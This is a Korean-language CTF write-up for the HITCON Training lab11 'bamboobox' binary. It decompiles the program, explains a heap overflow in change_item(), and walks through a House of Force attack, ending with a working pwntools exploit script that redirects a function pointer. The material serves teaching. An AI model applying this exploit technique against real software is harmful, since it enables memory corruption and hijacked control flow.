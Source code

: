 ```yaml
---
layout: post
title: "[HITCON Training] lab11"
comments : true
category : War Game
---
```


# 문제
***

bamboobox 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

바이너리 코드

__main()__
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
  v3 = malloc(0x10uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  ((void (__fastcall *)(signed __int64, _QWORD))*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        ((void (__fastcall *)(char *, char *))v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

__add_item()__ 
```c
__int64 add_item()
{
...
 
  else
  {
    printf("Please enter the length of item name:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( !v2 )
    {
      puts("invaild length");
      return 0LL;
    }
    for ( i = 0; i <= 99; ++i )
    {
      if ( !qword_6020C8[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        qword_6020C8[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        *(_BYTE *)(qword_6020C8[2 * i] + (signed int)read(0, (void *)qword_6020C8[2 * i], v2)) = 0;
        ++num;
        return 0LL;
      }
    }
  }
  return 0LL;
}
```

__change_item()__
```c
unsigned __int64 change_item()
{
...
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( qword_6020C8[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      *(_BYTE *)(qword_6020C8[2 * v2] + (signed int)read(0, (void *)qword_6020C8[2 * v2], v0)) = 0;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

__add_item()__ 함수에서는 할당받을 chunk의 크기를 입력 받고 해당 chunk에 item 이름을 입력 받는다. (chunk의 크기 만큼 문자열을 입력할 수 있다.) <br/>
itemlist는 chunk의 크기 (8byte), chunk의 주소 (8byte)로 구성된다. <br/><br/>
__change_item()__ 함수에서는 선택한 itemlist 항목의 item 이름을 변경한다. 그런데 이 때 입력 받을 문자열의 길이를 다시 입력으로 받는다. 이를 통해서 top chunk의 size 영역을 overwrite 할 수 있다. (__the house of force__ 공격이 가능) 

## exploit 방법
1. __change_item()__ 함수를 통해서 top chunk의 size 영역에 0xffffffffffffffff을 overwrite 한다.
2. __add_item()__ 함수를 통해서 -(새로 할당될 chunk의 주소 - (__main()__ 함수에서 v3에 할당된 chunk의 주소 - 16) ) 크기 만큼 chunk를 할당한다.
3. __add_item()__ 함수를 통해서 16 바이트 크기의 chunk를 할당하면 v3 영역이 할당 된다.
4. __change_item()__ 함수를 통해서 v3[1]을 magic 함수의 주소로 바꾼 후 v3[1]을 호출한다.


__주의할 점1__ <br/>
메모리 구조는 다음과 같다.
```
------------------
Not allocated
------------------
Heap base
------------------
Topchunk
------------------
```
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당할 때 top chunk의 size, prev_size 같은 것들이 Not allocated 영역 (write 권한이 없는 영역일 때)에 write 되지 않도록 크기를 잘 계산하자. <br/><br/>

__주의할 점2__ <br/>
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당한 이후에 top chunk의 크기가 적절히 남도록 주의하자. <br/>
예를 들어서 큰 할당 이후 top chunk가 0x38 남았을 때 내가 0x20 만큼 할당받으려고 하면 top chunk가 너무 조금 남아서 top chunk를 확장하려고 하는데 이때 malloc에서 sigabrt 에러가 발생한다. (내가 top chunk에 이상한 짓을 한 이후에 top chunk를 확장하려고 하는 상황에서 뭔가가 꼬이는 듯)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_item(length,pay):
	p.recvuntil("choice:")
	p.send("2")
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

def chan_item(index,length,pay):
	p.recvuntil("choice")
	p.send("3")
	p.recvuntil("item:")
	p.send(index)
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

file_path="/home/sungyun/round4/lab11/bamboobox"

p=process(file_path)

add_item("16","house_of_force")
add_item("16","hmm..")

pay="A"*16+"\x00"*8
pay+="\xff\xff\xff\xff\xff\xff\xff\xff"

chan_item("1","32",pay)

add_item("-112","hi_3ffr3s")
add_item("16","exploit!")

pay2="A"*8
pay2+=p64(0x400d49) #magic

chan_item("3","16",pay2)

p.recvuntil("choice:")
p.send("5")

p.interactive()
```


